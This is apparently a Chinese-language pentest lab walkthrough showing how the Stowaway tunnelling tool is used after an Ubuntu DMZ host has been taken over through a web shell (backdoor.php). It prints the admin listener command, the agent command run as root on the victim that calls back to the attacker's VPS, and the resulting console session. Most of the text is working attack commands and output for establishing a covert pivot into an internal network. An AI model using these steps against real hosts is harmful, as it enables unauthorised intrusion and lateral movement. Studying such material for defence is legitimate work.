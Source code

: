 拿下 DMZ 区域 Ubuntu 主机，Shell 地址 [http://172.20.10.3:81/backdoor.php，它的](http://172.20.10.3:81/backdoor.php%EF%BC%8C%E5%AE%83%E7%9A%84) Web 应用流量是反向代理到内网第二层网络，并且还是多网卡机器，因此能够访问第二层网络。

VPS 服务端开启 Socks 监听 8888，等待连接。-s 使用加密密钥 test 传输数据。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
```

上传 agent，-c 反连 VPS 172.20.10.2:8888，--reconnect 断线后 10 重连一次。

```plaintext
root@ubuntu:/home/web/# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
2023/03/13 00:54:48 [*] Starting agent node actively.Connecting to 172.20.10.2:8888
```

agent 与 VPS admin 端连接成功。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.20.10.3:58946 is set up successfully! Node id is 0
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58946  Hostname: ubuntu  User: root
Memo:

(admin) >> 
```

给 node 0 做个注释信息，方便其他同事了解此节点信息。
